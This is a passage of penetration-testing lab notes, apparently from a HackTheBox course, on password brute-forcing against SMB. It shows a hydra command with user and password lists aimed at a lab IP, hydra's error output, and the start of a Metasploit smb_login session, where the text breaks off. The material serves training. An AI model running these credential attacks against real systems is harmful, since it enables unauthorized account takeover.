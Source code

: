 It is used to implement file and directory sharing and printing services in Windows networks. SMB is often referred to as a file system, but it is not. SMB can be compared to `NFS` for Unix and Linux for providing drives on local networks.

SMB is also known as [**Common Internet File System**](https://cifs.com/) **(`CIFS`)**. It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS. In addition, we will often encounter [Samba](https://wiki.samba.org/index.php/Main_Page), which is an open-source implementation of the above functions. For SMB, we can also use `hydra` again to try different usernames in combination with different passwords.

### <mark style="color:blue;">**Hydra - SMB**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```
{% endcode %}

However, we may also get the following error describing that the server has sent an invalid reply.

### <mark style="color:blue;">**Hydra - Error**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```
{% endcode %}

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

### <mark style="color:blue;">**Metasploit Framework**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ msfconsole -q

msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
  
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


```